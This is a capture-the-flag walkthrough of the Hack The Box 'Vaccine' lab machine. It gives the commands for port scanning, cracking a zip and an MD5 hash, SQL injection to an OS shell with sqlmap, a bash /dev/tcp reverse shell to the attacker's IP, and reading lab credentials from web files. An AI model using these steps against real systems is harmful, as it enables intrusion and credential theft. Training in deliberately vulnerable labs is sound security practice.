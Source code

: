 # Vaccine
Notification: The words that are hyperlinked are to resources to learn more about the topic, protocol, or have useful information in them check them out if you want to learn more. 
# Enumeration

1. Nmap Scan 
  - First we want to start with a nmap scan and see what is available to us. to do this we will run the command below
    - `nmap -sS -A -oN nmap.txt 10.10.10.48`
    ![image](https://user-images.githubusercontent.com/29686845/133382328-9fb1414d-3ef7-440b-b5b9-96f3cbf89b49.png)
  - We see our open ports 21 FTP, 22 SSH, 80 HTTP Apache open. The main thing we notice is at the bottom of the screenshot or in our nmap scan we can see `http-title: MegaCorp Login`. This tells me that our credentials that we found in the previous machine [oopsie](https://github.com/Ajqx255/Hack-The-Box/tree/main/Oopsie) could potentially work to get us a secure shell through port 22. 
2. Port 22 SSH
  - lets try the root user that we obtained. Username: `ftpuser` Password: `mc@F1l3ZilL4` and connect with the command [SSH](https://www.openssh.com/manual.html) as seen below:
  
    ![image](https://user-images.githubusercontent.com/29686845/133384641-ee391953-ce3f-40a4-8a4e-c50499c56ed3.png)  
  - Which did not work, but it dawned on me as soon as we were denied permisson. (Dont Laugh at me... or do its fun to laugh and learn from our mistakes) there is a big hint in the name ftpuser. we have a open port and protocol that use ftp and [FileZilla](https://filezilla-project.org/) is a ftp software so we might have better luck there. 
3. Port 21 FTP
  - We will run the [FTP](https://linux.die.net/man/1/ftp) command as seen below:
    - `ftp 10.10.10.46`
    - ![image](https://user-images.githubusercontent.com/29686845/133386609-e80d051e-f851-4fe8-9552-d98a426f5aae.png)
  -  after using the same credentials as above we now see that we are succesfully connected lets see what we can find.
    - a simple `ls` command shows that there is a zip file nammed: backup.zip as seen below:
      ![image](https://user-images.githubusercontent.com/29686845/133498980-ed39df96-0c2b-4d83-adbb-9e3226339807.png)
  -  Lets extract the file back to our linux machine with using the [get](https://linux.die.net/man/1/get) command:
     - `get backup.zip`
  -  Now lets unzip the file with the command [unizp](https://linux.die.net/man/1/unzip) as seen below:
    - `unzip backup.zip`
    - When we do this we notice that it is asking for a password. Lets try the password for ftp user since it worked for usto gain access to the ftp server it might work here. 
    - ![image](https://user-images.githubusercontent.com/29686845/133500536-069549ad-1b43-4b25-8f26-cbcba8a35872.png)
    - the ftp password did not work either.
  - Since we do not know the password lets see if we can not brute force the password using [John the ripper](https://www.openwall.com/john/doc/)
    - We know we know we are going to use john to brute force the zip file, but we are going to have to do some prep work before we can actually use john. The first thing we are going to have to do is change the zip file into a format that john can read and crack. we will do this using [zip2john](https://www.hackingarticles.in/beginners-guide-for-john-the-ripper-part-2/) 
    - We will run the command `zip2john backup.zip > hash.txt`
    - ![image](https://user-images.githubusercontent.com/29686845/133515214-b0de851d-4373-407f-8421-3d5d899f124e.png)
    - John can now read teh file so lets go agead and crack it with the follwoing command:
    - `sudo john hash.txt --fork=4 -w= /usr/share/wordlists/rockyou.txt`
      - incase you were wondering --fork is stating the amount of threads or instances it will run simultaniously.
      - -w= is selecting a wordlist that you provide. In kali linux there are already wordlists install under /usr/share/wordlists. 
    -  Time frames will change based on the resources you are running, but within a matter of seconds john was able to crack to the hash:
    -  ![image](https://user-images.githubusercontent.com/29686845/133854092-b087597b-2285-4c55-bcdf-2074946b63ca.png)
        - I had issues with running this command for some reason: It worked the one time and I am glad I took a screen shot of it then. I tried multiple times to look at it and figure out what I was doing wrong, but I couldn't find it. So I would say try it out first and if it doesn't work, dont go on a three day rabbit hole like I did just move on! lol. 

4. Opening the zip file.
  - Now that we have the password `741852963` we can go ahead and unzip the backup.zip file and take a look inside.
    - The results ended out as two files "index.php" & style.css". Both seem to be a programming language file. 
      - [PHP](https://www.php.net/manual/en/intro-whatis.php)
      - [CSS](https://developer.mozilla.org/en-US/docs/Learn/CSS/First_steps/What_is_CSS)
    - You can look into the folder using the cat command: `cat index.php`, the less command: `less index.php`, but personally I like to use [Virtual Studio Code](https://code.visualstudio.com/). It color coordinates everything and just makes it easier for me to read and write code.
    - Once opened on we see some useful infromation. We find a set of credentials as seen below.
      ![image](https://user-images.githubusercontent.com/29686845/134093351-ecc751ba-0c94-4f1b-91f1-e208daed70f3.png)
    - Username: `admin` & Password: `2cb42f8734ea607eefed3b70af13bbd3`
      - This does not seem like a regular password, or at least not one that would be easily used or even memorized. That is because it is not a password it is a hash. it as in md5 hash to be exact. How can we tell? well luckily for us they made it easy. in the screenshot above the section right before password its says md5. 

5. Cracking the Hash
  - Lets see if we can crack it using [CrackStation](https://crackstation.net/). you can use other tools like hashcat, but it will talk some time to complete compaired to the seconds it takes CrackStation
      ![image](https://user-images.githubusercontent.com/29686845/134099184-3a44f86e-954a-4643-a105-9b71f275d3f5.png)
  - We now know that the username and the password `admin` & `qwerty789`
  
# FootHold
1. Web Page Access
  - I tried connecting through port 22 and the credentails did not work. so lets scratch that all together.
  - We know port 80 http is open lets take a look at the webpage and see what we find.
    - The website brings us to a login page. I entered the credianls `admin | qwerty789`. This gets us a successful login.
  - There is not many relevant factors to the page, but it seems to be a car catalog with a functioning search bar that we might be able to exploit.
2. Exploiting the Webpage
  - Based on our last activity I used burpsuite to look into the page with site map and found that this webpage uses [cookies](https://www.kaspersky.com/resource-center/definitions/cookies). 
    ![image](https://user-images.githubusercontent.com/29686845/134251827-8e4fce2d-2cfb-4a9b-86d3-75b574b0b420.png)
    - We can also see this information when we inspect the web page source code under the storage tab.
      ![image](https://user-images.githubusercontent.com/29686845/134251976-0f94bc71-70b6-4c06-9364-f723c604d70f.png)
  - Now that we have the session id/cookie we can use [sqlmap](https://sqlmap.org/) to see if there are any weaknesses or vulnerable area's ind the database. 
    - `sqlmap -u http://10.10.10.46/dashboard.php?search=a --cookie=PHPSESSID=0h8aobaj9glv58eeme3bsb0l0g`
      - You PHPSESSID will probably be different make sure you use you session id and not this one.
      ![image](https://user-images.githubusercontent.com/29686845/134252721-bb9bd463-fd6a-49b1-b71b-5360f616c369.png)
      ![image](https://user-images.githubusercontent.com/29686845/134253363-15bc34b1-a0c6-47f0-a099-0a94b8363064.png)
    - The output of our command shows that the back end of the Database Management system [DBMS](https://www.altexsoft.com/blog/business/comparing-database-management-systems-mysql-postgresql-mssql-server-mongodb-elasticsearch-and-others/) is [PostgreSQL](https://www.postgresql.org/)
    - This means that sqlmap found that there were many injection vulnerabilietes within this database. 
      - looking in burpsuite will show you a better idea of this with issue definitions
        ![image](https://user-images.githubusercontent.com/29686845/134255984-052aef09-d44f-40d2-88da-7f7eb31c97ee.png)
    - sqlmap provides an easy way to get a shell with this vulnerabilites. it is as easy as adding `--os-shell` to the end of our previous command which I will show right below this
    - `sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=0h8aobaj9glv58eeme3bsb0l0g" --os-shell`
      - I had issues with this for this. It is always important to check you syntax very diligently. I was missing the last character on my cookie when I copied and pasted it into the command. That prevented my from obtaining a shell for a little bit. 
      - ALWAYS CHECK YOUR SYNTAX

3. OS-Shell
  - Now that we have access to our os shell lets a run a few inital commnads. 
    - `whoami` & `id`
    - These commands will tell us what user we are and what this use has access too. 
  - We are going to try and create a reverse shell like we did in the previous machine.
    - lets set up our listner with the netcat command `nc -lvnp 444`
    - now lets run the reverse shell creation command in our os shell 
    - `bash -c 'bash -i >& /dev/tcp/<your_ip>/4444 0>&1'`
      ![image](https://user-images.githubusercontent.com/29686845/134260208-03155586-6647-4d0d-993b-0668e78f6ca3.png)
    - Now we have our shell! Lets upgrade that shell to a [tty](https://unix.stackexchange.com/questions/4126/what-is-the-exact-difference-between-a-terminal-a-shell-a-tty-and-a-con) shell using the command below:
    - `SHELL=/bin/bash script -q /dev/null`
    - Now that we have our upgraded reverse shell lets move on to gaining privilege escilation

# Privlege Escalation
1. html
  - We know that we are looking at at a web server database so lets look at the `/var/www/html` and see if we can find anyhting in the web page files that the developer forgot to take out.
    - once there i recogonized the `dashbord.php` file that was in our URL earlier.
    - I took a look in there with the cat command. `cat dashboard.php`
    - inside the file we find the credentials for the user postgres
      ![image](https://user-images.githubusercontent.com/29686845/134261757-253936eb-f311-4c3b-b865-b8f8f618d174.png)
    - UN: `postgres` PW: `P@s5w0rd!`
2. Sudo
  - So now that we have the user password we can see if we have any sudo permissions.
    - run the command `sudo -l` (lowercase L). It prompts for our password: `P@s5w0rd!` and shows us where we have sudo permissions and what commands we can run as a sudo or super user. 
      ![image](https://user-images.githubusercontent.com/29686845/134262172-335c02c9-bc30-4948-ab00-9732d559c985.png)
    - 


    
